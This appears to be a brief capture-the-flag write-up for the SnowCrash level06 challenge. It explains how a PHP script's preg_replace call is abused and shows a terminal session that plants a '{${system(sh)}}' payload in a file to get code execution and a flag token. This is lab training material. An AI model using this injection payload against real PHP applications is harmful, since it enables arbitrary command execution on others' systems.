 ### Exploit

This level, we're going to look at the potential vunerabilities of a PHP script. More specifically, that of the function [preg_replace](http://www.madirish.net/402). 

```
  level06@SnowCrash:~$ echo '[x {$y}]' >/tmp/getflag
  level06@SnowCrash:~$ ./level06 /tmp/getflag flag06
  /tmp/getflag
  level06@SnowCrash:~$ echo '[x {${system(sh)}}]' >/tmp/getflag
  level06@SnowCrash:~$ ./level06 /tmp/getflag flag06
  PHP Notice:  Use of undefined constant sh - assumed 'sh' in /home/user/level06/level06.php(4) : regexp code on line 1
  getflag
  Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
